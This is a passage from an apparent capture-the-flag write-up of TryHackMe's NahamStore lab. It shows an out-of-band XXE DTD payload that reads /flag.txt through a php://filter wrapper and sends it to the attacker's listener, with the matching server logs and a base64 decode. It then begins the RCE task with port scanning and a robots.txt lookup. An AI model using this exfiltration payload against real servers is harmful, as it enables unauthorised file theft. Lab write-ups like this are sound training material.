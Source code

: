 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a50.png)

**We received a GET request for `xxe.dtd`:**
```
10.10.46.5 - - [21/Sep/2022 04:36:33] "GET /xxe.dtd HTTP/1.0" 200 -
```

But the `/etc/passwd` is missing. Looks like there is a filter or restriction.

**To bypass that, I'll change the dtd payload from `file:///etc/passwd` to `php://filter/convert.base64-encode/resource=/flag.txt`.**

**xxe.dtd:**
```dtd
<!ENTITY % d SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'http://10.18.61.134/%d;'>">
```

```
10.10.46.5 - - [21/Sep/2022 04:33:36] "GET /xxe.dtd HTTP/1.0" 200 -
10.10.46.5 - - [21/Sep/2022 04:33:36] code 404, message File not found
10.10.46.5 - - [21/Sep/2022 04:33:36] "GET /e2Q2YjIy{Redacted}3ZDhmfQo= HTTP/1.0" 404 -
```

**Successfully retrieved the `flag.txt` in base64 encoded! Let's decode that!**
```
┌──(root🌸siunam)-[~/…/thm/ctf/NahamStore/XXE]
└─# echo "e2Q2YjIy{Redacted}3ZDhmfQo=" | base64 -d
{Redacted}
```

# Task 9 - RCE

```
Find ways to run commands on the webserver. You'll find the flags in /flag.txt
```

1. First RCE flag

**In the Recon section, we also find that there is another HTTP port on 8000:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# rustscan --ulimit 5000 -t 2000 --range=1-65535 $RHOSTS -- -sC -sV -oN rustscan/rustscan.txt
[...]
PORT   STATE SERVICE REASON         VERSION
[...]
8000/tcp open  http    syn-ack ttl 62 nginx 1.18.0 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-open-proxy: Proxy might be redirecting requests
```

**We can also see that it has a `robots.txt` file, which reveals the `/admin` directory:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl http://nahamstore.thm:8000/          
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl http://nahamstore.thm:8000/robots.txt
User-agent: *
Disallow: /admin
```
